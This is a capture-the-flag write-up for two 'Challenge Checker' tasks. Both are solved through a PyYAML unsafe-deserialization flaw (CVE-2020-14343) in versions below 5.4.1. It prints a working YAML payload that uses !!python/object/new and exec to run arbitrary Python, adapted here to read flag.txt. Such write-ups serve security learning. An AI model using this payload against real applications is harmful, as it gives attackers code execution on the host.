


# Challenge Checker

### Challenge Checker 1

We are prompted to paste in YAML data. We can see from the code that `yaml.load()` is used to load the data.

```python
from yaml import load

...

def check(raw_data) -> "Tuple[list[str], list[str]]":
    data = load(raw_data)
```

There exists a deserialization exploit in PyYAML that was only fixed in version 5.4.1.

Issue: [https://github.com/yaml/pyyaml/issues/420](https://github.com/yaml/pyyaml/issues/420) GitHub Advisory \(CVE-2020-14343\): [https://github.com/advisories/GHSA-8q59-q68h-6hv4](https://github.com/advisories/GHSA-8q59-q68h-6hv4)

We can see from `requirements.txt` that the version is 3.13, which is vulnerable.

```text
PyYAML==3.13
termcolor==1.1.0
```

From the GitHub issue, we can find some of the proof of concept exploits. For instance:

```yaml
- !!python/object/new:str
    args: []
    state: !!python/tuple
    - "RCE_HERE"
    - !!python/object/new:staticmethod
      args: [0]
      state:
        update: !!python/name:exec
```

So, in the `chall.yaml`, I simply added this PoC under `authors:`

```yaml
authors:
  - anli
  - Edward Feng
  - !!python/object/new:str
    args: []
    state: !!python/tuple
    - "print(open('flag.txt').read())"
    - !!python/object/new:staticmethod
      args: [0]
      state:
        update: !!python/name:exec
visible: true
```

This executes `print(open('flag.txt').read())` and reads the flag.



### Challenge Checker 2

The only change is that PyYAML is now version 5.3.1.

```text
PyYAML==5.3.1
termcolor==1.1.0
```

But the exploit we used previously affected all versions below 5.4.1, so it works here too.



